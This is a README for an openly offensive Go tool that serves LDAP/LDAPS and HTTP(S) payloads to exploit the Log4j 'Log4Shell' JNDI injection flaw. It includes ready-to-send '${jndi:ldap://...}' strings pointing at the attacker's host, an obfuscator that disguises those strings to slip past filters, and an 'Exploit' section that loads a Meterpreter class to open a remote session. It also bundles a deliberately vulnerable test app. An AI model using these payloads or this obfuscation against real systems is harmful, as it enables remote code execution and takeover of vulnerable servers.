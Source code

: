 # Log4Shell
 * Check, exploit, obfuscate, TLS, ACME in one Go program.
 * You don't need to install anything except develop it.

## Usage
 ### Start LDAP and HTTP server
   * ```Log4Shell.exe -host "1.1.1.1"```
   * ```Log4Shell.exe -host "example.com"```
 
 ### Start LDAPS and HTTPS server
   * ```Log4Shell.exe -host "example.com" -tls-server -tls-cert "cert.pem" -tls-key "key.pem"```
   * ```Log4Shell.exe -host "1.1.1.1" -tls-server -tls-cert "cert.pem" -tls-key "key.pem"``` (need IP SANs)

 ### Start LDAPS and HTTPS server with ACME
   * ```Log4Shell.exe -host "example.com" -auto-cert``` (must use domain name)

 ### Obfuscate malicious(payload) string
   ```
   Log4Shell.exe -obf "${jndi:ldap://1.1.1.1:3890/Calc}"

   raw: ${jndi:ldap://1.1.1.1:3890/Calc}

   ${jn${Nc3-h17cwiZ-bRU2sh:-di:}${CGPuF-OGZxNU-zZfWp:-l}${wW:sVK9ZUijf:jUelV4upFr:wjD:-}d${OZQ-MqOEGT9K
   -IAdC:-ap}${Kce64-15l39K4DD5-xWtee:zY:-:/}${gZm-yFU0:-}${o05ov5-9bU2WWgtlf:PK5:-/}${y7sa1T:aFd6Q7S45r
   -KYGD:-}${0dPYxy:IqCd:-1}${YSf-yHfZ:-.1}${Jct1X-kQVdPM:cKmXcaheDfY:kI:-}.${It:CK52YEP-6HC:-1.1}${rzgS
   :e1wOc5zHLe-Q1tI2IqBj-G2A:-}:3${NMDyH8-bsqLVD-m0HdT:ik:-}${Bg-2GX6XW:CFHnf:-}${4sqv:HPwwv:-89}0${BzHb
   q-JBkQtJ7qDz:L7PaQXH:PUYv91:-/C}${QfhcM:tn:-}${6e-OkiFFt:WtnF:-al}c${etTbi-iWYq-pvATIA6K2K:Rq:-}}
   ```

## Check
 * start Log4Shell server
 * put your class file to the payload directory
 * send ```${jndi:ldap://1.1.1.1:3890/Nop}```
 * send ```${jndi:ldaps://example.com:3890/Nop}``` with TLS

## Exploit
 * start Log4Shell server
 * put your class file to the payload directory
 * send ```${jndi:ldap://1.1.1.1:3890/Meterpreter}```
 * send ```${jndi:ldaps://example.com:3890/Meterpreter}``` with TLS
 * meterpreter will open source after some time

## VulApp
 * VulApp is a vulnerable Java program that use log4j2 package.
 * You can use it for develop this project easily.
 * ```java -jar vulapp.jar ${jndi:ldap://127.0.0.1:3890/Calc}```

## Help
  ```
  :::      ::::::::   ::::::::      :::     ::::::::  :::    ::: :::::::::: :::      :::
  :+:     :+:    :+: :+:    :+:    :+:     :+:    :+: :+:    :+: :+:        :+:      :+:
  +:+     +:+    +:+ +:+          +:+ +:+  +:+        +:+    +:+ +:+        +:+      +:+
  +#+     +#+    +:+ :#:         +#+  +:+  +#++:++#++ +#++:++#++ +#++:++#   +#+      +#+
  +#+     +#+    +#+ +#+   +#+# +#+#+#+#+#+       +#+ +#+    +#+ +#+        +#+      +#+
  #+#     #+#    #+# #+#    #+#       #+#  #+#    #+# #+#    #+# #+#        #+#      #+#
  ######## ########   ########        ###   ########  ###    ### ########## ######## ########

                                                        https://github.com/For-ACGN/Log4Shell

Usage of Log4Shell.exe:
  -auto-cert
        use ACME client to sign certificate
  -host string
        server IP address or domain name (default "127.0.0.1")
  -http-addr string
        http server address (default ":8080")
  -http-net string
        http server network (default "tcp")
  -ldap-addr string
        ldap server address (default ":3890")
  -ldap-net string
        ldap server network (default "tcp")
  -obf string
        obfuscate malicious(payload) string
  -payload string
        payload(java class) directory (default "payload")
  -tls-cert string
        tls certificate file path (default "cert.pem")
  -tls-key string
        tls private key file path (default "key.pem")
  -tls-server
        enable ldaps and https server
  ```

## Screenshot
![](https://github.com/For-ACGN/Log4Shell/raw/main/screenshot.png)
